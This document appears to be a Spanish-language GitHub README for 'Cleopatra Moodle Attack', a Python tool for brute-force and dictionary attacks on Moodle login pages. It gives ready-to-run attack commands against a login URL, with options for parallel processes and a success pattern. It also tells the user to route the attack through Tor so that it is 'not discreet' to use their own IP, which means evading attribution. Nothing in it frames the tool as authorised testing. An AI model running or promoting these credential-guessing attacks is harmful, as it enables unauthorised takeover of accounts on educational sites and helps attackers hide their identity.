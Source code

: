 # Cleopatra Moodle Attack

![enter image description here](https://i.imgur.com/MlDQz9I.png)
<br>

<p align="left">
<img src="https://img.shields.io/badge/Creado%20por-RamPanic-green">
<img src="https://img.shields.io/badge/Hecho en%20-Python3-red">
    <a href="https://github.com/RamPanic?tab=repositories"><img src="https://img.shields.io/badge/Ver%20m%C3%A1s-repositorios-yellow"></a>
</p>

Cleopatra Moodle Attack (CMA) es una herramienta que le permite lanzar ataques de fuerza bruta o de diccionario en los login de sitios web basados en la plataforma Moodle.

## Instalar requerimientos

```bash
pip3 install -r requirements.txt
```

## Instalar servicio Tor y lanzar ataque

No sería discreto utilizar nuestra dirección de IP para realizar el ataque, por ende hay que cambiarla, para esto utilizaremos el servicio Tor.

### Sistemas Linux

#### Debian

```bash
sudo apt install -y tor
```
#### Arch

```bash
sudo pacman -S tor
```

### Lanzar con bandera

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst --tor-proxy
```

## Ataque en paralelo

Con CMA podremos utilizar la potencia de la CPU para obtener la contraseña más rápido.

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst --processes 4
```

*Advertencia*: utilice esta bandera bajo su propio riesgo, su sistema podría colapsar por un mal uso.

## Ejemplo de ataque por diccionario

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst
```

## Muestras

![cleopatra-help](https://i.imgur.com/qHkOEu8.png)
![cleopatra](https://i.imgur.com/4DNmzTs.png)


